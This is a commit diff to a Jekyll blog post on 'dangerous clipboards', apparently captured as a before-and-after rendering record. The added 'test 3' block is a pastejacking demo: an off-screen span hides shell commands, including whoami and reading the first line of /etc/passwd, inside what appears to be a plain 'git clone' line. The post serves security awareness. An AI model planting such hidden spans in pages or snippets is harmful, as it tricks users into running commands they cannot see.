

Before and after one commit to travisbgreen/travisgreen.net, a Jekyll site: the page built from _posts/2018/2018-04-24-dangerous-clipboards.markdown, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
test update

````diff
--- a/_posts/2018/2018-04-24-dangerous-clipboards.markdown
+++ b/_posts/2018/2018-04-24-dangerous-clipboards.markdown
@@ -7,6 +7,7 @@ Have you ever cut/copied/pasted into a terminal window? Here's one of a few reas
 
 note -- another example here: view-source:https://security.love/Pastejacking/
 
+### test 1:
 {::nomarkdown}
     <p class="codeblock">
       <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
@@ -17,8 +18,7 @@ note -- another example here: view-source:https://security.love/Pastejacking/
 {:/}
 
 
-## test 2:
-
+### test 2:
 <!-- {% raw %} -->
 ```html
     <p class="codeblock">
@@ -29,3 +29,14 @@ note -- another example here: view-source:https://security.love/Pastejacking/
     </p>
 ```
 <!-- {% endraw %}) -->
+
+
+### test 3:
+{::nomarkdown}
+    <code>
+      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
+      git clone
+      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
+      git://git.kernel.org/pub/scm/utils/kup/kup.git
+    </code>
+{:/}
````
